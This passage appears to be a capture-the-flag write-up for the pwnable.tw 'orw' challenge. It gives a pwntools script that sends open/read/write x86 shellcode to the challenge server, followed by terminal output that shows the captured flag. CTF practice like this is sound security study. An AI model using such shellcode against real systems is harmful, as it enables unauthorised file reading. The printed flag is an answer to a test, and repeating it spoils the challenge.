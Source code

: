 I got the shellcode in the following exploit script
```
from pwn import *

p = remote("chall.pwnable.tw", 10001)

shellcode='''

open:
push 0x0
push 0x67616c66
push 0x2f77726f
push 0x2f656d6f
push 0x682f0000
mov eax, 0x5
lea ebx, [esp+0x2]
xor ecx, ecx
xor edx, edx
int 0x80

read:
mov ebx, eax
mov eax, 0x3
mov ecx, esp
mov edx, 0x28
int 0x80

write:
mov eax, 0x4
mov ebx, 0x1
mov ecx, esp
int 0x80


'''

shellcode= asm(shellcode)
p.recvuntil(":")
p.send(shellcode)

p.interactive()
```

The fix worked! And I got my flag ｡\^‿\^｡ (By the way, `p.interactive()` is needed. Without it, the flag won't be printed.)
```
solomonbstoner@swjsUbuntu:~/Desktop$ python python\ exploit\ for\ orw.py 
[+] Opening connection to chall.pwnable.tw on port 10001: Done
[*] Switching to interactive mode
FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}
�[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to chall.pwnable.tw port 10001
```

END